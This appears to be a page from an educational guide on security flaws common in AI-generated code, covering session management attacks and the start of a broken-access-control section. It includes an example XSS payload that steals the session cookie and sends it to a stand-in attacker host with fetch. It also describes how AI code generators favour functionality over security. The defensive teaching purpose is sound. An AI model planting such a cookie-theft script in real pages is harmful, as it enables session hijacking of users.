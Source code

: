 **2. Training Data Shortcuts:**
- Tutorial code uses in-memory storage for simplicity
- Examples skip security flags for brevity
- AI learns simplified patterns

**3. Functional Focus:**
- Session "works" without security features
- Tests pass without expiration/renewal
- AI optimizes for functionality, not security

### Session Attack Scenarios

**Attack 1: Predictable ID Guessing**
```javascript
// Vulnerable session ID
sessionId = Buffer.from("john_doe" + "1704067200000").toString('base64');

// Attacker guesses:
// - Username: from public profile
// - Timestamp: login time (±  few minutes)
// → Can recreate session ID
```

**Attack 2: XSS Session Theft**
```javascript
// Without httpOnly flag
<script>
  const sessionId = document.cookie.match(/sessionId=([^;]+)/)[1];
  fetch('https://attacker.com/steal?session=' + sessionId);
</script>
// Steals session cookie via XSS
```

**Attack 3: Session Fixation**
```javascript
// Attacker sets victim's session ID before login
// Victim logs in with attacker's session ID
// Attacker now logged in as victim
```

---

## 1.2.3 Broken Access Control

### The Problem

According to analytics from ZenCoder:

> "Authorization bugs in AI-generated code are particularly dangerous because they often pass functional tests while leaving gaping security holes."

The AI frequently generates code that:
- ✅ Checks if user is **authenticated** (logged in)
- ❌ Fails to verify if user is **authorized** (has permission)
